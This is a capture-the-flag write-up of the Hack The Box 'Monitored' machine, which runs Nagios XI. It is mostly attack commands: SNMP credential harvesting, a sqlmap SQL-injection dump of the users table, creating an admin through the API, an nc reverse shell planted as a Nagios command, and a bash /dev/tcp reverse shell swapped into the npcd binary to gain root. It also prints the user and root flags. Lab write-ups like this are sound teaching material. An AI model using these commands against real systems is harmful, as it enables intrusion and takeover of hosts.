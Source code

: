 # Monitored

## Introduction

This writeup details the exploitation process of the "Monitored" box on Hack The Box. The challenge is categorized as medium difficulty and involves several stages, from initial access via SNMP enumeration to gaining root access through service misconfiguration.

<figure><img src="../.gitbook/assets/image (33) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Enumeration

### Nmap

```bash
sudo nmap -A -sC -sU -sV -Pn 10.10.11.248
```

<figure><img src="../.gitbook/assets/image (40) (1).png" alt=""><figcaption></figcaption></figure>

### Adding Domain to Hosts File

```bash
echo "10.10.11.248 nagios.monitored.htb" | sudo tee -a /etc/hosts
```

### Directory Enumeration

```bash
dirsearch -u https://nagios.monitored.htb/nagiosxi/
```

<figure><img src="../.gitbook/assets/image (35) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
dirsearch -u https://nagios.monitored.htb/nagiosxi/api/v1
```

<figure><img src="../.gitbook/assets/image (36) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Exploitation

### SNMP Enumeration

```bash
incursore.sh -H 10.10.11.248 -t recon
```

```basic
iso.3.6.1.2.1.25.4.2.1.5.570 = STRING: "-c sleep 30; sudo -u svc /bin/bash -c /opt/scripts/check_host.sh <USERNAME> <password> "
```

### Authentication Bypass

```bash
curl -ksX POST https://nagios.monitored.htb/nagiosxi/api/v1/authenticate -d 'username=<USERNAME>&password=<PASSWORD>&valid_min=1000'

{"username":"svc","user_id":"2","auth_token":"<TOKEN>","valid_min":1000,"valid_until":"Tue, 05 Mar 2024 15:48:12 -0500"}
```

It no luck to login with auth\_token, but i found the SQL injection [nagios-xi-vulnerabilities](https://outpost24.com/blog/nagios-xi-vulnerabilities/).

### SQL Injection and API Key&#x20;

```bash
sqlmap -u "https://nagios.monitored.htb//nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=3&token=<TOKEN>" --level=3 --risk=3 -p id --batch --dbms=mysql -D nagiosxi -T xi_users --dump
```

### Create New User

<pre class="language-bash"><code class="lang-bash"><strong>curl -s -XPOST "http://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=&#x3C;API_KEY>" -d "username=admin&#x26;password=KPMG&#x26;auth_level=admin&#x26;email=test@gmail.com&#x26;name=eiei"
</strong><strong>
</strong>{"success":"User account admin was added successfully!","user_id":8}
</code></pre>

* Enter https://nagios.monitored.htb/nagiosxi/mobile/
* Login as USERNAME:PASSWORD
* Go the desktop dashboard

<figure><img src="../.gitbook/assets/image (37) (1) (1).png" alt=""><figcaption></figcaption></figure>

* go https://nagios.monitored.htb/nagiosxi/includes/components/ccm/xi-index.php

<figure><img src="../.gitbook/assets/image (38) (1).png" alt=""><figcaption></figcaption></figure>

* Find command tab
* Add new command

<figure><img src="../.gitbook/assets/image (39) (1).png" alt=""><figcaption></figcaption></figure>

* nc \<YOUR\_IP> \<YOUR\_PORT> -e /bin/bash
* Run check command
* nc -lvnp \<YOUR\_PORT>

### User Flag

<figure><img src="../.gitbook/assets/image (41) (1).png" alt=""><figcaption></figcaption></figure>

* Cat user.txt ~~e9eaf8e812a59f17bcae9f18b37b4509~~

## Privilege Escalation

### Create own SSH

<pre class="language-bash"><code class="lang-bash">#Your localmachines
ssh-keygen -t rsa -b 4096 -C "your_email@example.com" 
<strong>
</strong><strong>#Victims
</strong>mkdir -p ~/.ssh
chmod 700 ~/.ssh
touch ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys

#Your localmachines
cat ~/.ssh/id_rsa.pub

#Victims
echo 'your_public_ssh_key' >> ~/.ssh/authorized_keys

#Your localmachines
ssh username@victim_server_ip
</code></pre>

<figure><img src="../.gitbook/assets/image (42) (1).png" alt=""><figcaption></figcaption></figure>

### Create LinPEAS.sh:

```bash
#Your localmachines
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh > test.sh

chmod +x test.sh

scp test.sh nagios@IP:/home/nagios
```

### Run line LinPEAS

```bash
./test.sh
```

<figure><img src="../.gitbook/assets/image (43) (1).png" alt=""><figcaption></figcaption></figure>

```bash
nano /usr/local/nagios/bin/npcd
----------------------------------------------
#!/bin/bash
bash -i >& /dev/tcp/YOUR_IP/YOUR_PORT 0>&1
----------------------------------------------
chmod +x /usr/local/nagios/bin/npcd
```

```markup
We don't know how to restart `npcd` service, let try `sudo -l`
```

<figure><img src="../.gitbook/assets/image (44) (1).png" alt=""><figcaption></figcaption></figure>

```bash
sudo /usr/local/nagiosxi/scripts/manage_services.sh restart npcd
```

<figure><img src="../.gitbook/assets/image (45) (1).png" alt=""><figcaption></figcaption></figure>

### Root Flag

cat /root/root.txt&#x20;

~~cc01453cbbbad93eac5646e6ebf0046c~~

## Follow Me

* **LinkedIn**: [https://www.linkedin.com/in/waris-damkham/](https://www.linkedin.com/in/waris-damkham/)
* **Website**: [https://waris-damkham.netlify.app/](https://waris-damkham.netlify.app/#home)
